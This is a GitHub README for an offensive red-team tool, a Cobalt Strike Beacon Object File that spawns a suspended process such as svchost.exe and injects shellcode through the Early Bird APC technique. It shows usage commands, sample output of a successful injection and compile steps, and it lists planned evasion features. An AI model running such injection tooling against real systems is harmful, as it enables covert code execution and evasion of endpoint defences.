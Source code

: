 ## HOLLOW - Cobalt Strike BOF
##### Authors:
+ Bobby Cooke ([@0xBoku](https://twitter.com/0xBoku))
+ Justin Hamilton ([@JTHam0](https://twitter.com/JTHam0))
+ Octavio Paguaga ([@OakTree__](https://twitter.com/OakTree__))
+ Matt Kingstone ([@n00bRage](https://twitter.com/n00bRage))

Beacon Object File (BOF) that spawns an arbitrary process from beacons memory in a suspended state, inject shellcode, hijack main thread with APC, and execute shellcode; using the Early Bird injection method taught by @SEKTOR7net in RED TEAM Operator: Malware Development Intermediate.
- [Sektor7 RED TEAM Operator: Malware Development Intermediate Course](https://institute.sektor7.net/courses/rto-maldev-intermediate/463257-code-injection/1435343-earlybird)

![](/images/poc.png)

### Run from Cobalt Strike Beacon Console
+ After compile import the hollow.cna script into Cobalt Strikes Script Manager
```bash
beacon> help hollow
Synopsis: hollow /path/to/hollow/pe /local/path/to/shellcode.bin
beacon> hollow svchost.exe /Users/bobby.cooke/popCalc.bin
[*] HOLLOW - EarlyBird Remote Process Shellcode Injector (@0xBoku|github.com/boku7) | (@JTHam0|github.com/Rodion0)
[*]             (@n00bRage|github.com/josephkingstone) | (@OakTree__|github.com/git-oaktree)
[*] Reading shellcode from: /Users/bobby.cooke/popCalc.bin
[+] Success - Spawned process for svchost.exe at 5464 (PID)
[+] Success - Allocated RE memory in remote process 5464 (PID) at: 0x000001A83BEC0000
[+] Success - Wrote 280 bytes to memory in remote process 5464 (PID) at 0x000001A83BEC0000
[+] Success - APC queued for main thread of 5464 (PID) to shellcode address 0x000001A83BEC0000
[+] Success - Your thread was resumed and your shellcode is being executed within the remote process!
```

### Compile with x64 MinGW (only tested from macOS):
```bash
x86_64-w64-mingw32-gcc -c hollow.c -o hollow.o
```

### To Do List
+ Refactor code to make it more modular/clean
+ Implement this into github.com/boku7/SPAWN
  - Combine this with the PPID spoofing and blockdll features of SPAWN

### Credits / References
+ Credit/shoutout to: @SEKTOR7net + Raphael Mudge
##### Sektor7 Malware Dev Essentials course - learned how to do the early bird injection technique
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
+ https://github.com/odzhan/injection/blob/master/syscalls/inject_dll.c
+ https://github.com/ajpc500/BOFs/blob/main/SyscallsInject/entry.c
+ https://github.com/ajpc500/BOFs/blob/main/SyscallsInject/syscalls_inject.cna


